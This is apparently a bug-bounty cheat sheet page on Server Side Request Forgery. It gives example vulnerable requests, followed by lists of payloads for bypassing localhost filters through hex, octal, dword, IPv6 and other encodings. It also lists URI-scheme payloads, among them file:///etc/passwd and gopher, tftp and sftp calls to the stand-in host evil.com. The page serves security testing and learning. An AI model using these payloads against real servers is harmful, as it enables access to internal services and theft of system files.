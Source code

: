 

## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Request%20Forgery.md#introduction)

Server Side Request Forgery is a web application vulnerability that allows attackers to make outgoing requests originating from the vulnerable server

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Request%20Forgery.md#where-to-find)

Usually it can be found in the request that contain request to another url, for example like this

```
POST /api/check/products HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Referer: https://example.com

urlApi=http://192.168.1.1%2fapi%2f&id=1
```

or

```
GET /image?url=http://192.168.1.1/
Host: example.com
```

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Request%20Forgery.md#how-to-exploit)

1. Basic payload

```
http://127.0.0.1:1337
http://localhost:1337
```

2. Hex encoding

```
http://127.0.0.1 -> http://0x7f.0x0.0x0.0x1
```

3. Octal encoding

```
http://127.0.0.1 -> http://0177.0.0.01
```

4. Dword encoding

```
http://127.0.0.1 -> http://2130706433
```

5. Mixed encoding

```
http://127.0.0.1 -> http://0177.0.0.0x1
```

6. Using URL encoding

```
http://localhost -> http://%6c%6f%63%61%6c%68%6f%73%74
```

7. Using IPv6

```
http://0000::1:1337/
http://[::]:1337/
```

8. Using bubble text

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Use this https://capitalizemytitle.com/bubble-text-generator/
```

## How to exploit (URI Scheme)

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Request%20Forgery.md#how-to-exploit-uri-scheme)

1. File scheme

```
file:///etc/passwd
```

2. Dict scheme

```
dict://127.0.0.1:1337/
```

3. FTP scheme

```
ftp://127.0.0.1/
```

4. TFTP scheme

```
tftp://evil.com:1337/test
```

5. SFTP scheme

```
sftp://evil.com:1337/test
```

6. LDAP scheme

```
ldap://127.0.0.1:1337/
```

7. Gopher scheme

```
gopher://evil.com/_Test%0ASSRF
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Request%20Forgery.md#references)

- [Vickie Li](https://vickieli.medium.com/bypassing-ssrf-protection-e111ae70727b)



